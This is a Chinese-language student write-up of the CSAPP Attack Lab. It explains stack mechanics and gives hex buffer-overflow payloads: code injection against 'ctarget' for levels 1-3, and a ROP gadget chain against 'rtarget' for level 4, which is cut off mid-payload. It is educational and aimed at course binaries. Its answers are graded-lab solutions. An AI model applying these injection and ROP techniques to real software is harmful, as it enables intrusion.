## Attack Lab实验解答

### 1.实验概述

> 注意：Attack Lab实验需要用到CSAPP_3th第三章的内容，尤其是程序栈和缓冲区溢出方面的知识。
> 所以实验之前需要掌握第三章的知识。

本次实验的内容是让我们当一把黑客，利用缓冲区溢出漏洞来对程序进行攻击。
通过这个实验会让我们更加了解什么是缓冲区溢出以及如何防范缓冲区溢出所带来的危险。

这次实验一共有5关，其中前三关是对`ctarget`可执行文件进行代码注入(code-injection)攻击；后四关是对`rtarget`可执行文件进行面向返回编程(return-oriented-programming)攻击。

实验还提供了每一关对应函数的c语言代码以及一个可以将十六进制串转换成相同位模式的Ascii码字符串的工具。

### 2.实验准备

和Bomb Lab实验一样，本次实验也是需要分析程序的汇编的，所以也就需要使用反汇编工具以及调试器，关于这些工具可以参考Bomb Lab实验里的来。

这次实验所包含的对应pdf文档提供了每一关对应函数的c语言代码，还详细的说明了每一关所需要的完成的目标以及附带工具的使用方法，以供我们参考。

本次实验带有评分系统，不过需要一些网络配置才能使用，所以可以在准备运行`ctarget`和`rtarget`程序时加上`-q`来禁用评分系统。


以下是本次实验各关的目标以及分值情况：


### 3.进行攻击

本次实验是进行缓冲区溢出攻击，缓冲区也就是指函数在储存输入设备所输入的字符串时，在栈中所分配(也就是创建字符数组)的内存区域，这些栈内存用来保存该字符串。

当输入的字符串超过所分配的栈内存空间时，就会发生缓冲区溢出，此时字符串可能会写入到其他无关的栈内存区域，造成一些无法预测的错误。

本次实验就是利用这个漏洞，输入一些特殊的字符序列(也叫做攻击代码)对程序进行一些修改操作。

---

**实验要求**

本次实验所提供的两个程序的功能基本一样，我们运行该程序时，需要输入一串字符串，通过我们输入的字符串对程序进行攻击，从而使程序返回到关卡所指定的函数。


当我们输入的字符串太短，没有出现缓冲区溢出或者没有达到要求时，程序将会显示通过失败：



否则就会显示成功通过的界面：


本次实验所提供的两个程序(`ctarget`和`rtarget`)的输入相关函数的实现是一样的，以下是程序的基本流程：
* `main`函数调用`test`函数来输出字符到显示界面。
* 而`test`函数会在输出前调用`getbuf`函数。
* `getbuf`函数会调用`Gets`函数来接收输入的字符串，其中`getbuf`函数会创建一个字符数组来储存该字符串，数组具体的尺寸是由宏`BUFFER_SIZE`来规定的，且该尺寸会在编译后确定下来。
* `Gets`函数不会判断是否会出现缓冲区溢出，只是简单的一直读取字符直到遇到换行符或者文件尾标志为止。
* 任务的目标就是让程序在`getbuf`函数执行完毕后不返回到`test`函数，而返回到关卡所指定的函数，且输出所要求的字符串。

以下是题目所给的输入相关函数的c语言代码：




#### 3.1 相关知识

在进行攻击之前，我们需要了解汇编里面的栈相关以及指令方面的知识，尤其是以下方面：
1. 栈相关知识：
  * 程序栈是一个特殊的内存空间，该空间用来存储函数调用链中的各种控制，数据等临时信息，比如额外的局部对象，调用函数的返回地址，被保存的寄存器，用地址运算符的对象以及函数所创建的数组、结构体以及联合对象等。
  当某函数被调用完毕后，该函数在栈中的上述信息通常都会被释放掉(但具体是否会被释放要根据该函数的实现为准，编写正常的函数都会在被调用完后释放这些信息)。
  * 程序栈中的内存地址被称为栈帧，且这些内存地址是从上到下减小的，且栈顶在最下面，栈底在最上面。寄存器`%rsp`指向的是栈顶的内存。
  * 在栈上压入信息的具体操作，对于不同的处理器，流程可能不一样。
  对于大部分Intel处理器来说，在栈上压入信息就是先将信息存入到`%rsp`将要指向到的内存中，向，然后`%rsp`指向将要指向的内存(也就是向下移动相应的字节)。
  * 在栈上弹出信息的具体操作，对于不同的处理器，流程也可能不一样。
  对于大部分Intel处理器来说，在栈上弹出信息的操作就是先将`%rsp`指向将要指向的内存(也就是向上移动相应的字节)，然后将`%rsp`之前指向的地址中的信息存入到所给的寄存器或者地址中。



1. 指令方面知识：
  * 汇编语言的各种指令，其实也是一种数据。
  每条指令都储存在内存空间中，且有相应的地址，表示该指令的数据是从该地址开始储存的。
  一个指令的地址是所有储存该指令数据的地址中的最小内存地址，也就是该指令的开始地址。
    ```bash
    # 一条mov指令，该指令的地址为0x401a54，
    # 是因为该指令的第一个字节数据b8的内存地址为0x401a54，
    # 是为该指令所有数据中的最小地址。
    # 其他的字节数据地址都比b8大，
    # 比如89的内存地址为0x401a55，
    # c2的内存地址为0x401a56，以此类推。
    401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
    ```
  * 同一个函数中的指令都是储存在一个连续的内存空间中(不是储存在程序栈中)，这些指令从上到下，顺序存放在地址从低到高的连续内存空间中。
  所以函数的地址也就是该函数第一个指令的地址。
    ```bash
    # 函数setval_299的地址为0x401a5a，
    # 是因为该函数第一个指令的地址就是为0x401a5a。
    0000000000401a5a <setval_299>:
    401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
    401a60:	c3                   	retq   
    ```
  * 程序计数器(program counter)是用于指向处理器所要执行的指令的下一条指令的特殊寄存器`%rip`，处理器需要执行的下一条指令就是当前程序计数器(pc)所指向的指令。
  一般来说，除非当前执行指令是跳转、`call`或者`ret`等指令，否则pc所保存的地址是当前执行指令地址紧邻的下一个指令的开始地址。
  * 汇编语言的`call`指令操作其实是先将该`call`指令的下一个指令的地址压入到程序栈中，然后将call后面所给的地址保存在pc中，作为下一个执行的指令的地址。
  * 汇编语言的`ret`指令操作其实就是执行`pop %rip`指令。

#### 3.2 代码注入攻击

代码注入(CI)攻击所适合的程序是比较简单的程序，这些程序一般没有栈随机化、栈保护者以及栈不可执行等栈保护措施。

通常的CI攻击也就是在输入字符串(攻击代码)中包含一些和某些指令的位模式相同的字符序列，并且该输入字符串的长度会超出缓存区的大小，以便修改某些函数的返回地址，使后续的pc可以指向我们所需要执行的指令(通常是之前我们在栈中所传递的指令)。

本次所有CI攻击的对象程序都是`ctarget`，该程序无任何栈保护措施。

##### 3.21 第一关

###### 3.211 任务要求

第一关的目标是让我们使用CI攻击，使程序返回到`touch1`函数。

以下是题目所给的`touch1`函数的c语言代码：


###### 3.212 任务解答

这一关比较简单，所给的`touch1`函数没有任何实参需要传递，所以我们可以直接通过修改`getbuf`函数的返回地址为`touch1`的函数地址来达到返回`touch1`函数的目的。

所以解题步骤为：
1. 确定缓冲区尺寸和`touch1`的函数地址。
2. 编写16进制的攻击代码，并用所提供的工具将其转换成字符串。
3. 将该字符串输入到程序中，进行攻击。

我们需要知道`getbuf`函数中的数组占用了多少的栈内存，因为在编译后就确定了尺寸，所以我们可以通过查看`getbuf`函数的汇编代码来确定：
```bash
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
由此可知数组的大小为40字节。

为了得知`touch1`的函数地址，我们可以查看`touch1`函数的汇编代码：
```bash
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  #后面的代码省略
```
由此可知`touch1`的函数地址为`0x4017c0`。

实验所提供的工具程序`hex2raw`需要我们输入由空格或换行符分隔的一个个16进制对，所以我们的16进制的攻击代码可以为以下内容(要注意小端法机器的字节顺序)：
```c
/* 该内容存放在strs1文件中 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 0a /* the addr of touch1 */
```

然后将其转换成字符串并输入到`ctarget`中(`raws1`文件中包含了转换后的字符串)：


以下通过第一关的界面：


##### 3.22 第二关

###### 3.221 任务要求

第二关的目标是让我们使用CI攻击，使程序返回到`touch2`函数，并且将cookie值作为参数传递到`touch2`函数中。

cookie值是实验文件`cookie.txt`中包含的值，该值以一个4字节的16进制串显示。

以下是题目所给的`touch2`函数的c语言代码：


###### 3.222 任务解答

因为所给的`touch2`函数需要传递一个int实参，所以这一关就需要我们在攻击代码中包含一些指令代码了。

`touch2`函数只有一个参数，我们回想一下，作为第一个参数的寄存器名称为`%rdi`，所以我们需要将cookie值传递到`%rdi`中。
因为我们要让程序执行栈中指令，所以需要将返回地址修改为保存这些指令的开始的栈地址，并且指令中要有`ret`指令，使之能够执行完这些指令后返回到`touch2`函数。

所以解题步骤为：
1. 确定`touch2`的函数地址、cookie值以及保存这些指令的开始栈地址。
2. 确定攻击代码中包含的指令，并编写相应的汇编代码。
3. 将编写好的汇编代码汇编成目标程序，再对该目标程序进行反汇编，从而可以得到这些汇编代码的16进制字节序列表示(牛的人可以直接手写对应的字节序列，就不需要1，2步了)。
4. 编写16进制的攻击代码，并用所提供的工具将其转换成字符串。
5. 将该字符串输入到程序中，进行攻击。

根据之前的分析，所需的指令应该有以下这些：
```bash
# 该内容存放在ass2.s文件中
pushq $0x4017ec  #put the addr of touch2 into the stacks
movq $0x59b997fa,%rdi  #set the cookies as the first argument of touch2
retq  #return to the touch2
```

对上面的汇编代码进行汇编和反汇编：


以下是反汇编后的代码：
```bash
# 该内容存放在dis2.s文件中
ass2.o：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   c:	c3                   	retq   
```

以下是根据汇编代码以及其他信息所编写16进制的攻击代码：
```c
/* 该内容存放在strs2文件中 */
68 ec 17 40 00 90 90 90 /* pushq $0x4017ec */ /* the addr of touch2 */
48 c7 c7 fa 97 b9 59 90 /* mov $0x59b997fa,%rdi */
c3 00 00 00 00 00 00 00 /* retq */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 0a /* 0x5561dc78, the addr of $rsp which should be
written */
```

以下通过第二关的界面：


##### 3.23 第三关

###### 3.231 任务要求

第三关的目标是让我们使用CI攻击，使程序返回到`touch3`函数，并且要将cookie的16进制串转换为字符串形式(比如数字`1`转为字符`'1'`，数字`b`转换为字符`'b'`等)，再将该字符串作为参数传递到`touch3`函数中。

其中`touch3`函数会调用一个`hexmatch`函数来判断转换的字符串形式是否正确，且该函数会分配一个很大的缓冲区来对我们的操作进行限制。

以下是题目所给的touch3和hexmatch函数的c语言代码：



###### 3.232 任务解答

因为我们需要传递的是将cookie的字符串形式，所以`touch3`的参数是一个字符指针。
所以我们不仅要想出cookie的字符串形式，还需要将该字符串储存到某地址中，但由于`hexmatch`函数的缓冲区可能会覆盖我们的字节，所以我们就不能将该串储存在`hexmatch`函数的缓冲区中。不过可以储存在其他的栈内存中。
其他的行为和第二关一样。

所以解题步骤几乎和第二关一样，为：
1. 确定`touch3`的函数地址、cookie的字符串形式、所要储存cookie串的栈地址以及保存这些指令的开始栈地址。
2. 确定攻击代码中包含的指令，并编写相应的汇编代码。
3. 将编写好的汇编代码汇编成目标程序，再对该目标程序进行反汇编，从而可以得到这些汇编代码的16进制字节序列表示。
4. 编写16进制的攻击代码，并用所提供的工具将其转换成字符串。
5. 将该字符串输入到程序中，进行攻击。

根据之前的分析，所需的指令应该有以下这些：
```bash
# 该内容存放在ass3.s文件中
pushq $0x4018fa  #put the addr of touch2 into the stacks
movq $0x6166373939623935,%rax  #store the string representation of cookies in %rax as the temporary store.
movq %rax,0x5561dc29  #pass the string to the addr which is far than the addr of function hexmatch's stacks.
movb $0,0x5561dc31  #add the null char in the end of this string.
movq $0x5561dc29,%rdi #set the addr of cookies string as the first argument of touch3
retq  #return to the touch3
```

以下是对上面代码汇编、反汇编后的代码：
```bash
# 该内容存放在dis3.s文件中
ass3.o：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 fa 18 40 00       	pushq  $0x4018fa
   5:	48 b8 35 39 62 39 39 	movabs $0x6166373939623935,%rax
   c:	37 66 61 
   f:	48 89 04 25 29 dc 61 	mov    %rax,0x5561dc29
  16:	55 
  17:	c6 04 25 31 dc 61 55 	movb   $0x0,0x5561dc31
  1e:	00 
  1f:	48 c7 c7 29 dc 61 55 	mov    $0x5561dc29,%rdi
  26:	c3                   	retq     
```

以下是根据汇编代码以及其他信息所编写16进制的攻击代码：
```c
/* 该内容存放在strs3文件中 */
68 fa 18 40 00 48 b8 35 /* pushq $0x4018fa */ /* the addr of touch3 */
39 62 39 39 37 66 61 48 /* movq $0x6166373939623935,%rax */
89 04 25 29 dc 61 55 c6 /* movq %rax,0x5561dc29 */
04 25 31 dc 61 55 00 48 /* movb $0,0x5561dc31 */
c7 c7 29 dc 61 55 c3 00 /* movq $0x5561dc29,%rdi */ /* retq */
78 dc 61 55 00 00 00 0a /* 0x5561dc78, the addr of $rsp which should be
written */
```

以下通过第三关的界面：


---

#### 3.3 面向返回编程攻击

一般来说，大多数程序不可能没有任何的栈保护措施，所以当我们在面对某些含有栈保护的程序时，简单的CI攻击就无效了，所以我们需要采用其他的手段来实现攻击。

接下来的这两关就是使用一种叫做面向返回编程(ROP)的攻击手段来攻击带有栈随机或者栈不可执行的保护措施的程序(不能攻击含有栈保护者的程序)。

因为程序带有栈随机或者栈不可执行，所以攻击代码中含有的指令并不容易被定位或者不能被执行。
因此，对于ROP攻击中的攻击代码，并不会含有指令片段。

ROP攻击是利用被攻击程序自己所带的指令来攻击程序，具体来说，也就是利用以下原理来进行攻击：
* 对于一条指令对应的字节序列来说，可能该指令的某段子序列也是一条或多条指令，比如：
  ```bash
  # 一条mov指令，但是它的字节子序列也是指令
  401aab: c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  # 两个由上面指令的字节子序列所组成的指令
  401aae: 89 e0                   movl   %esp,%eax
  401ab0: 90                      nop
  ```
  该指令字符的子序列可以看做成1个`mov`指令和1个`nop`指令，且这些指令的地址也就是该子序列的起始数据的地址。
* 每个程序基本都有各种函数，这些函数都含有一些指令以及`ret`指令。
  所以我们可以将一个函数进行拆分，其中的某部分可以当成一个含有多个指令的，并包含`ret`指令的指令组合。
  ```bash
  # 函数addval_358，可以将其后面的部分看成一个指令组合
  0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq   
  # 一个指令组合，含有3条指令，最后的指令是一个ret指令。
  # 该组合指令的起始地址为0x401a86。
  401a86: 89 e0                   movl   %esp,%eax
  401a88: 90                      nop
  401a89: c3                      retq
  ```
  因为栈随机化只是调整了栈的内存地址，而没有随机化指令内存的地址；栈不可执行也只是针对栈内存部分的，所以我们就可以将函数的返回地址修改为这些指令的起始地址，从而完成一些操作。

本次所有ROP攻击的对象程序都是`rtarget`，该程序含有栈随机化以及栈不可执行这两个栈保护措施。

接下来的关卡使用的都是ROP攻击，任务规定了我们所能拆分的函数，并给我们这些函数的C语言代码，这些代码在`farm.c`文件中。

任务还显示了一些汇编指令与其字节序列的对照表：


##### 3.31 第四关

###### 3.311 任务要求

第四关的目标和第二关类似，也是使程序返回到`touch2`函数，并且将cookie值作为参数传递到`touch2`函数中，只不过这次是让我们使用ROP攻击。

本关要求我们只能拆分从函数`start_farm`到函数`mid_farm`中的函数(包含这两个函数)。

###### 3.312 任务解答

因为我们使用的是ROP攻击，所以不会在攻击代码中写入指令，我们只需要使用所给函数的某些子序列指令来进行操作。

观察任务所给的对照表，我们发现所给的对照指令非常少，只有`mov`，`pop`和一些位指令，不过我们可以使用表上没有的指令，只要所给的函数中有就行。
我们需要根据我们的需求以及这些指令来找出我们应该使用的指令，然后再在所给的函数中寻找包含这些指令的子序列指令。

所以解题步骤为：
1. 根据需求确定所要使用的指令，并在所给函数的汇编代码中寻找是否有含有所需指令的子序列组合指令。
   如果没有，则根据需求确定另一套指令，然后继续寻找，直至找到一个满足需求的可用组合指令，并记录该指令的起始地址。
2. 根据所使用的组合指令以及相关信息编写16进制的攻击代码，并用所提供的工具将其转换成字符串。
3. 将该字符串输入到程序中，进行攻击。

根据我们的需求，我们发现可以用以下指令来完成任务要求：
```bash
popq %rax # 该指令执行时的栈顶所储存的是cookie值
movl %eax,%edi
retq # 该指令执行时的栈顶所储存的是函数touch2的地址
```

然后我们在所给函数的汇编代码中寻找是否含有这些指令的组合指令，然后发现了函数`addval_219`的某组合指令可以完成第一条指令，函数`setval_426`的某组合指令可以完成其他的指令。
```bash
# 函数addval_219
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
# 可用的子序列组合指令，起始地址为0x4019ab
  4019ab:   58                      popq %rax
  4019ac:   90                      nop
  4019ad:   c3                      retq
```
```bash
# 函数setval_426
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
# 可用的子序列组合指令，起始地址为0x4019c6
  4019c6:   89 c7                   movl %eax,%edi
  4019c8:   90                      nop
  4019c9:   c3                      retq
```

以下是根据所使用的组合指令以及相关信息所编写16进制的攻击代码：
```c
/* 该内容存放在strs4文件中 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* the addr of gadget1 */ /* popq %rax; nop; retq */
fa 97 b9 59 00 00 00 00 /* the val of cookie */
